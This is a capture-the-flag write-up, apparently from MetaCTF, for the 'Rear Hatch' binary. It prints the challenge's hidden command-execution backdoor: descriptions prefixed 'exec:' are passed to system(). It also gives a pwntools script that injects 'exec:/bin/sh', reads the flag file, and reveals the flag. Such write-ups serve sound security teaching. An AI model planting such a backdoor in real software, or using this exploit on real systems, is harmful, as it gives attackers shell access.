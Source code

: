 # Rear Hatch - Writeup

---

## Challenge Description

![Alt text](img/1.png)

---

## Exploit Demo

This demo shows the exploitation flow:

![Alt text](gif/RearHatch.gif)

---

## Challenge Summary

You are presented with a command-line program that manages maintenance requests stored in a file. You can add, view, delete, or mark requests as completed.

The vulnerability lies in the `markRequestCompleted()` function. If a request's description starts with the string `exec:`, the program extracts the following string and passes it to `system()`, allowing command execution.

To exploit it, add a new request with the description:

```
exec:/bin/sh
```

Then choose **option 4** to mark that request as completed. This triggers `system("/bin/sh")`, giving the user a shell.

## Binary Information

```bash
$ file RearHatch
```

![Alt text](img/2.png)

```bash
$ pwn checksec RearHatch
```

![Alt text](img/3.png)

---

## Static Analysis (CLion - JetBrains)

Reviewing the source in CLion reveals a hidden command execution path in the `markRequestCompleted()` function:

```c
if (requests[i].id == id &&
    (strncmp((char *)requests + i*264 + 4, "\x65\x78\x65\x63\x3a", 5) == 0 ?
     system((char *)requests + i*264 + 9), 1 : 1))
```

![Alt text](img/4.png)

### Key Observations:

- `requests` is an array of structs (`MaintenanceRequest`) each 264 bytes in size.
- The comparison checks if the **description** of a request starts with `"exec:"` using `strncmp`.
- If matched, it calls `system()` on the contents of the description starting just after `"exec:"`.

This introduces a **hidden command injection backdoor**: the program will execute arbitrary shell commands embedded in the description field of a request when marked as completed.

---

## Exploit Strategy

To exploit this backdoored logic, you must:

1. **Add a new maintenance request** with the description starting with `exec:` followed by a shell command :

   ```
   exec:/bin/sh
   ```

   This is done via **option 1** (Add Maintenance Request).

2. Then choose **option 4** (Mark Request as Completed), and input the ID of the crafted request.

3. When the condition in `markRequestCompleted()` is met, the program detects the `exec:` prefix and executes the remaining string using `system()` — in this case, spawning a shell.

No memory corruption or complex exploitation is needed — it's a hidden **command execution backdoor** triggered via valid program flow.

## Exploit Code

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template RearHatch --host kubenode.mctf.io --port 30014
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'RearHatch')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'kubenode.mctf.io'
port = int(args.PORT or 30014)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        PIE enabled
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

io.sendline(b'1')
io.sendline(b'exec:/bin/sh')
io.sendline(b'4')
io.recvuntil(b'Enter the ID of the request to mark as completed: ')
io.sendline(b'1')
io.sendline(b'cat flag.txt')
flag = io.recvregex(br'MetaCTF{.*?}')
log.success(f"FLAG : \033[1;33m{flag.decode()}\033[1;0m")




```

---

## Exploit Output

![Alt text](img/5.png)

---

## Vulnerability Summary

The program contains a hidden backdoor in the `markRequestCompleted()` function. If a request’s description begins with `exec:`, the application extracts the remainder of the string and passes it directly to `system()`.

This allows an attacker to execute arbitrary shell commands by:

- Adding a maintenance request with a crafted description like `exec:/bin/sh`.
- Marking the request as completed to trigger command execution.

The vulnerability stems from **unvalidated input** being passed to `system()` based on a **magic prefix**, introducing a command injection vector.

---

## Flag

```
MetaCTF{4lw4ys_r34d_4ll_7h3_c0d3}
```
